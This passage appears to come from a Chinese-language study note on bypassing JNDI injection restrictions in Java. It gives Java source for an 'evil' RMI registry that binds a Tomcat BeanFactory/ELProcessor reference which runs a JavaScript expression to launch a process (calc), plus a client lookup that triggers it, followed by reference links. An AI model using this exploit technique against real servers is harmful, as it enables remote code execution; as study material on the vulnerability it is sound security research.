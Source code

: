 服务端

```
package JNDI.Bypass.loader;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {

    public static void main(String[] args) throws Exception{

        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);

        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));

        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("Object", referenceWrapper);

    }
}
```

客户端

```
package JNDI.Bypass.loader;

import javax.naming.InitialContext;

public class Client {
    public static void main(String[] args) throws Exception{
        Object object=new InitialContext().lookup("rmi://127.0.0.1:1097/Object");
    }
}
```

不过这里因为的el包没导入成功,就没有再进行复现了,具体的过程https://xz.aliyun.com/t/8214#toc-2也有



参考链接

https://xz.aliyun.com/t/8214

https://www.anquanke.com/post/id/221917#h2-7

https://xz.aliyun.com/t/6633

https://blog.csdn.net/u011479200/article/details/108246846

https://blog.csdn.net/will__be/article/details/117412180